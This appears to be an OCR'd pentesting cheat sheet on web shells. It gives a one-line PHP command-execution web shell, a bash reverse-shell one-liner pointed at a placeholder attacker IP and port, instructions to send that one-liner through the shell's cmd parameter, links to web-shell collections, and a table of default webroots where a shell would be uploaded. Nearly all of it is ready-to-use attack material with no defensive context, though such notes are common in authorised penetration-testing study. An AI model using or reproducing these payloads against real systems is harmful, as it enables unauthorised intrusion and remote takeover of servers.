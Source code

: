 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Open reverse shell:
```
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
url encode it and send as cmd query or post parameter

Collection of webshells laudanum:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |
